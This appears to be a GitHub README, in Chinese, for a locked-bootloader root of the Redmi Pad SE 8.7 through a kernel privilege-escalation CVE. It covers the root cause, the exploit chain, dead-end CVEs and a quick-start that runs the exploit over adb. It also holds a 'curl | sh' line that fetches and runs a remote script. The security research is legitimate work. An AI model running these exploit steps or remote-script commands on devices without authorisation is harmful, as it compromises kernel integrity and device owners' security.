




# Redmi Pad SE 8.7 · 免解锁 Bootloader 拿到完整 ROOT

[**中文**](README.md) · [English](README.en.md)

<a href="README.en.md"></a>

[](docs/04-vulnerability.md)
[](#风险)
[](#风险)
[](#风险)
[](#一最终结果)
[](docs/)
[](LICENSE)

### ▶ 43 秒讲清楚整件事

<a href="assets/promo-98260.mp4"></a>

*点封面播放 · [MP4 直链](assets/promo-98260.mp4) · 配乐由 [scripts/make-bgm.py](scripts/make-bgm.py) 合成，可自行替换*

| 时间 | 讲什么 |
|---|---|
| `0:00` | 锁定 bootloader → 完整 ROOT |
| `0:05` | 公开 exploit 失败：`timers=0`、`task_recs=0` |
| `0:11` | ★ **核心**：`0x195d48` vs `0x015d48`，差 `0x80000` |
| `0:20` | 修法：四个候选自校准，只有 `0x080000` 命中 512 |
| `0:27` | 三段链条：fake_cred → selinux=0 → uid=0 |
| `0:34` | `uid=0(root)` · 0 分区写入 · bootloader 仍锁定 |
| `0:40` | 仓库地址 |

---

> **一句话**：在 bootloader 保持锁定、全程零分区写入、设备从未变砖的前提下，
> 用 `CVE-2026-98260` 拿到了 `uid=0` + `u:r:ksu:s0` + 完整 capability + KernelSU。

---

## ⚡ 30 秒版

```console
$ adb shell uname -r
6.6.118-android15-8-gc4127a25dcf3-ab15863337-4k

$ adb shell su -c id
uid=0(root) gid=0(root) groups=0(root) context=u:r:ksu:s0

$ adb shell su -c 'grep Cap /proc/self/status'
CapPrm: 000001ffffffffff
CapEff: 000001ffffffffff

$ adb shell grep kernelsu /proc/modules
kernelsu 180224 4 - Live 0x0000000000000000 (O)
```

**bootloader 没解。没刷任何东西。重启就还原。再跑一条命令就回来。**

---

## 🧨 一行说清核心 bug

这个仓库最有价值的东西，不是「某台平板能 root」，而是这个：

```
公开的 Shark 源码在这台机器上 100% 失败：
  [calib] timers=0
  [cred]  task_recs=0

原因就一行：

    slide & 0x1fffff = 0x80000      ← 不是 0

它把所有 call_site 的低 21 位和「链接地址的低 21 位」硬比。
但这台机器 KASLR 是 512 KB 对齐（不是 2 MiB），低 21 位整体平移了 0x80000。
所以每一个过滤条件都永远匹配不上 —— 而且不报错，静默失败。
```

**修法**（自校准，4 个候选各试一遍）：

```c
static const unsigned long long cands[4] = {0, 0x80000, 0x100000, 0x180000};
for (int ci = 0; ci < 4; ci++) {
    g_low_adj = cands[ci];
    cc = scan_timer_allocs(...);          /* 取命中最多者 */
    if (cc > c) { c = cc; best_ci = ci; }
}
```

改完之后：

```
[calib] timers=512 low_adj=0x80000
[cred]  task=0xffffff807a40cb00 task_recs=1     ← 从 0 变成 1
PROBE_OK
```

**完整分析 → [docs/09-root-cause.md](docs/09-root-cause.md)**

---

## 💡 为什么你该读这个仓库（哪怕你不持有这台平板）

| 如果你…… | 这里有你要的 |
|---|---|
| 在**移植别人的内核 exploit** | 一个通用陷阱：KASLR 对齐粒度是**设备属性**，不是常量。所有「位片段硬比较」都要补偿 slide |
| 在**做安卓临时 root** | 13 条路线的完整判据，每条都有反汇编 / 反编译 / 实测证据。省你几个周末 |
| 在**学内核漏洞利用** | 从 tracefs 泄露 → slab 测量 → 载体选择 → EXACT HIT 的完整链条，含 7 个我们亲手造出来的 bug |
| 只想**给这台平板 root** | 直接跑，命令在下面 |

**最有普适性的一句**：

> KASLR 的对齐粒度是设备属性，不是常量。
> 任何把「链接地址的位片段」和「运行时地址的位片段」直接比较的代码，
> 都必须先补偿 slide 的对应分量。

---

## 🎬 攻击链



**三个阶段，每个都需要单独一次成功的页回收：**

| 阶段 | 做什么 | 结果 |
|---|---|---|
| `fake_cred` | 把 `task->cred` 指向我们页里伪造的完整能力 cred | `CapEff=0x1ffffffffff` |
| `selinux` | 零写 `selinux_state` | `getenforce` → Permissive |
| `fake_uid` | 零写假 cred 的 `uid/gid` | `resuid=0/0/0` |
| `late-load` | 用 ksud 加载 KernelSU LKM | `kernelsu ... Live` |

**为什么能成**：`prepare_creds()` 会把假 cred「洗」一遍，分配真实的 SELinux blob —
所以不是硬骗内核，而是让伪造对象经过合法路径。

---

## 🗺 你该试哪条路（先看图再动手）



[英文版决策树](assets/decision-tree.png) · [完整死路分析](docs/03-dead-ends.md)

---

## ⛔ 别试这些（我们全试死了，附判据）

| 路线 | 判据 | 结论 |
|---|---|---|
| **GhostLock** `CVE-2026-43499`<br>（4 个公开仓库） | `remove_waiter` 里 **0 次** `mrs sp_el0` ⇒ 已在用 `waiter->task` | ❌ 小米提前回补了 |
| **Bad Epoll** `CVE-2026-46242`<br>（99% 成功率的 PoC） | `ep_remove` 有 `getxr/stlxr` pin + `cbz` 门控 + `fput` | ❌ 已修补 |
| **mqsas**<br>`miui.mqsas.IMQSNative` | ① 方法号 16–30 不存在（公开要 21）② `runCommand` 有白名单 ③ `mqsasd` 根本没跑 | ❌ 三重封堵 |
| **Magica** | 需要 Permissive 窗口 + 重启 zygote，我们没有触发手段 | ⚠️ 理论可行，未实测 |
| **MTK BROM 全线** | penumbra FAQ：小米同时开 **BROM SLA + DAA** | ❌ 无免费门路 |
| **fenrir / lkpatcher** | 需要**已解锁**的 bootloader 才能刷 | ❌ 循环依赖 |
| **Kamakiri / Heapbait / Carbonara** | BROM `wIndex` 已加边界检查；DA2 2024-11 已修；Carbonara 要签名 DA1 | ❌ |
| **userfaultfd 系列** | `vm.unprivileged_userfaultfd = 0` | ❌ |
| **NFC 11 条 CVE** | 设备没有 NFC 硬件 | ❌ |
| **5 个 nginx CVE** | 与安卓完全无关（NGINX2Root 服务器漏洞）| ❌ |
| **binder UAF**（6.6.145 修） | 二进制**未见修补**（`binder_free_transaction` 无 `put_task_struct`）| ⚠️ **还有戏，我们没继续** |

**详细证据 → [docs/03-dead-ends.md](docs/03-dead-ends.md)**

---

## 🚀 快速开始

```bash
# 0. 先确认设备匹配
curl -sL https://raw.githubusercontent.com/nestchao/redmi-pad-se-87-root/main/scripts/check-device.sh | sh
# 或手动：
adb shell uname -r    # 必须是 6.6.118-android15-8-gc4127a25dcf3-ab15863337-4k

# 1. 推 exploit + ksud
adb push artifacts/shark-k66118-fixed /data/local/tmp/shark66118
adb push artifacts/ksud-3.3.1        /data/local/tmp/ksud33
adb shell 'chmod 755 /data/local/tmp/shark66118 /data/local/tmp/ksud33'

# 2. 装 KernelSU 管理器 v3.3.1 (32680) —— 版本必须匹配
adb install -r -g KernelSU_v3.3.1_32680-release.apk

# 3. 零风险自检（不触发漏洞）
adb shell '/data/local/tmp/shark66118 probe'
#    期望看到: [calib] timers=512 low_adj=0x80000
#              [cred] task_recs=1
#              PROBE_OK

# 4. 开打（第一次可能失败，重跑即可，约 2/3 成功率）
adb shell "cd /data/local/tmp && \
  PYB110_KSUD=/data/local/tmp/ksud33 \
  PYB110_MANAGER_PKG=me.weishu.kernelsu \
  PYB110_KMI=android15-6.6 \
  ./shark66118 --auto"

# 5. 验证
adb shell su -c id
```

**详细复现指南 → [docs/11-reproduce.md](docs/11-reproduce.md)**

---

## 📊 这个仓库的硬数据

| 项 | 数量 |
|---|---|
| 逐条验证并排除的路线 | **13** |
| 二进制级确认「已修复」的 CVE | **4** |
| 解析的内核 ChangeLog 提交 | **11,845**（44 个版本） |
| 筛出的安卓可达安全提交 | **270** |
| 我们亲手造出来又修掉的 bug | **7** |
| 编码 / 工具事故 | **9** |
| 分区写入 | **0** |
| 变砖 | **0** |
| 修复后运行的 panic | **0 / 6 次** |
| 文档 | **14 章 · 中英双语** |

---

## 📚 文档

### 核心三篇

| | 文档 | 为什么读 |
|---|---|---|
| 🧨 | **[09 · 根因：2MiB 对齐假设](docs/09-root-cause.md)** | 最有价值的一章。完整推理链，可迁移到任何 exploit 移植 |
| ⛔ | **[03 · 全部死路 + 证据](docs/03-dead-ends.md)** | 最省时间的一章。13 条路，每条都有判据 |
| 🕳 | **[12 · 踩过的坑](docs/12-pitfalls.md)** | 7 个 bug + 9 次事故 + 9 个误导现象 + 症状速查表 |

### 全部章节

| # | 中文 | English |
|---|---|---|
| 01 | [设备基线](docs/01-device.md) | [Device](docs/en/01-device.md) |
| 02 | [侦察方法论](docs/02-methodology.md) | [Methodology](docs/en/02-methodology.md) |
| 03 | [**全部死路**](docs/03-dead-ends.md) | [**Dead ends**](docs/en/03-dead-ends.md) |
| 04 | [漏洞原理](docs/04-vulnerability.md) | [Vulnerability](docs/en/04-vulnerability.md) |
| 05 | [KASLR 泄露](docs/05-kaslr.md) | [KASLR](docs/en/05-kaslr.md) |
| 06 | [slab 布局](docs/06-slab-layout.md) | [Slab layout](docs/en/06-slab-layout.md) |
| 07 | [载体选择](docs/07-carriers.md) | [Carriers](docs/en/07-carriers.md) |
| 08 | [EXACT HIT](docs/08-exact-hit.md) | [EXACT HIT](docs/en/08-exact-hit.md) |
| 09 | [**根因**](docs/09-root-cause.md) | [**Root cause**](docs/en/09-root-cause.md) |
| 10 | [成功链解读](docs/10-breakthrough.md) | [Breakthrough](docs/en/10-breakthrough.md) |
| 11 | [复现指南](docs/11-reproduce.md) | [Reproduce](docs/en/11-reproduce.md) |
| 12 | [**踩坑清单**](docs/12-pitfalls.md) | [**Pitfalls**](docs/en/12-pitfalls.md) |
| 13 | [时间线](docs/13-timeline.md) | [Timeline](docs/en/13-timeline.md) |
| — | [速查卡](docs/CHEATSHEET.md) | [Cheatsheet](docs/en/CHEATSHEET.md) |

---

## 🖼 素材

全部在 [`assets/`](assets/)，可直接用于转发：

| 文件 | 用途 |
|---|---|
| [`banner-zh.png`](assets/banner-zh.png) | 中文横幅 |
| [`banner.png`](assets/banner.png) | 英文横幅 |
| [`chain.png`](assets/chain.png) | 攻击链总图 |
| [`decision-tree-zh.png`](assets/decision-tree-zh.png) | 中文决策树 |
| [`decision-tree.png`](assets/decision-tree.png) | 英文决策树 |

重新生成：`python scripts/make-assets.py`

**想帮忙传播？** [`PROMO.md`](PROMO.md) 里有可直接复制的多平台文案（Reddit / XDA / HN / X / Telegram / V2EX / 酷安 / 知乎），
以及 awesome-list 的投递条目。

---

## 风险

| 项 | 实际情况 |
|---|---|
| **变砖** | **不可能** —— 全程零分区写入 |
| 内核 panic | 修复后 6 次运行 **0 次**（早期盲 reap 阶段崩过约 10 次，都自动重启恢复了）|
| 数据 | 低风险（panic 时若正有文件在写，那个文件可能损坏）|
| **持久性** | 临时 root，**重启即失效** |
| bootloader | 始终 `locked` / `verifiedbootstate=green` |

**为什么不会砖**：在 exploit 源码里搜 `/dev/block`、`by-name`、`mmcblk`、`dd if=`、
`flash`、`reboot`、`insmod` —— **一个都没有**。它只改内核内存。

**失败时行为**：输出 `PARKED`，把僵尸留着不盲 reap，**不会崩，重跑即可**。

---

## 🤝 贡献

发现了我们漏掉的东西（尤其是 **binder UAF** 和 **Joyride/hidraw** 这两条我们没走完的路）？
欢迎开 issue 或 PR。见 [CONTRIBUTING.md](CONTRIBUTING.md)。

**如果你在别的机型上复现了 / 失败了**，请在
[Discussions](https://github.com/nestchao/redmi-pad-se-87-root/discussions)
报告你的 `uname -r` 和输出 —— 这对别人非常有价值。

---

## ❤️ 如果这个仓库帮到你

- **点个 ⭐** —— 这是让更多人看到的唯一方式
- 把 [09 章那个 KASLR 坑](docs/09-root-cause.md) 转给正在移植 exploit 的人
- 在别的机型上试了之后回来留个结果

---

## 来源与致谢

| 项目 | 用途 |
|---|---|
| [kpgc10kai/Shark](https://github.com/kpgc10kai/Shark) | 源码基础 |
| [Yunnijian/Shark-Releases](https://github.com/Yunnijian/Shark-Releases) | 上游二进制（行为参照，v2.5.1）|
| [fynks/awesome-temporary-root](https://github.com/fynks/awesome-temporary-root) | **找到 Shark 的关键索引**（记录了同内核的成功案例）|
| [quyicheng03-boop/CVE-2026-98260-popsicle-android](https://github.com/quyicheng03-boop/CVE-2026-98260-popsicle-android) | EXACT HIT 方法论 |
| [WantenMN/cve-2026-98260-adb](https://github.com/WantenMN/cve-2026-98260-adb) | 「精确 node 偏移」思路 |
| [vvb2060/Magica](https://github.com/vvb2060/Magica) | permissive → setuid 的 AOSP 机制 |
| [R0rt1z2/penumbra](https://github.com/R0rt1z2/penumbra) | MTK BROM/DA 权威文档（用来确认死路）|

---

## 免责声明

**本项目仅用于本人持有设备的授权安全研究。**

- 只对**你自己拥有的设备**使用
- 内核漏洞利用可能触发 panic；虽然本项目不写分区、不会砖，仍请自行承担风险
- 不要用于任何未经授权的设备

**License: MIT**
